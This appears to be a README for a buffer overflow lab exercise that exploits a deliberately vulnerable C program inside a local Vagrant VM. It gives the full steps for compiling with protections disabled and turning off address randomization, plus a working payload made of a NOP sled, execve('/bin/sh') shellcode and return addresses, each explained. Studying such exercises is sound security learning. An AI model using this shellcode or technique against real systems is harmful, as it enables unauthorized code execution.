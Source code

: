 # Description

A program with a bug making it susceptible to a buffer overflow attack.

# Exploiting the bug

1. Start the Vagrant VM
```bash
vagrant up
```
2. Login to the VM and compile the program with stack protection disabled and
debugging info included
```bash
vagrant ssh
cd /vagrant
gcc -m32 -ggdb -z execstack -fno-stack-protector -o vuln vuln.c
```
3. Disable stack randomization
```bash
echo 0|sudo tee /proc/sys/kernel/randomize_va_space
```

4. Run the program with malicious payload passed in as an argument
```bash
./vuln $(python -c 'print "\x90" * 480 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "\xbf\x70\xf7\xff" * 10')
```

# Explanation

The program accepts an argument and performs and un-bound string copy of that
argument into a 500-bytes long char buffer.

In order to exploit the bug, I've used a shellcode which starts a shell which I
downloaded from [this website](http://shell-storm.org/shellcode/files/shellcode-827.php).

I'm passing the shellcode as an argument to `vuln`:

`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80`

I've also created a "nop sled":

```python
print "\x90" * 480
```

And placed it before the malicious shellcode so that it's easier to "find" it.
It's enough for the return address to land anywhere within the sled and
the program will reach the shellcode.

The last part of the argument is a return address:

```python
print "\xbf\x70\xf7\xff" * 10
```

We've added it 10-times just to be sure the buffer is overflown enough to reach
the return address frame.

